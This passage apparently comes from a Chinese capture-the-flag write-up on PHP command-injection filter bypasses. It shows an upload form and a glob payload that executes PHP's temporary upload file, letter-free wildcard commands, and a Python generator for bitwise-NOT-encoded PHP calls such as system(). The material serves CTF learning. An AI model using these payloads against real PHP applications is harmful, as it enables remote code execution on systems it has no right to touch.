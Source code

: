     但是，在执行第一个匹配上的文件的时候就已经出现了错误，导致整个流程停止，根本不会执行到我们上传的文件。

    glob通配符支持用`[^x]`的方法来构造“这个位置不是字符x”。可以利用`[@-[]`来表示大写字母。当然，php生成临时文件名是随机的，最后一个字符不一定是大写字母，不过多尝试几次也就行了。

    **POST上传文件数据包**：

    复制

    ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>POST数据包POC</title>
    </head>
    <body>
    <form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">
    <!--链接是当前打开的题目链接-->
        <label for="file">文件名：</label>
        <input type="file" name="file" id="file"><br>
        <input type="submit" name="submit" value="提交">
    </form>
    </body>
    </html>
    ```

    在上传文件`1.php`内容添加**sh命令**：

    复制

    ```
    #!/bin/sh
    ls
    ```

    上传抓包，构造**poc执行命令**：

    `?c=./???/????????[@-[]`

- 通配符（仅无字母）

  base64: `/???/????64 ????.???`

  bzip2: `/???/???/????2 ????.???`

- `[~(异或)][!%FF]`形式

  复制

  ```
  def one(s):
      ss = ""
      for each in s:
          ss += "%" + str(hex(255 - ord(each)))[2:].upper()
      return f"[~{ss}][!%FF]("
  
  """
  组成类似于system(pos(next(getallheaders())));即可
  a=whoami
  """
  while 1:
      a = input(":>").strip(")")
      aa = a.split("(")
      s = ""
      for each in aa[:-1]:
          s += one(each)
      s += ")" * (len(aa) - 1) + ";"
      print(s)
  ```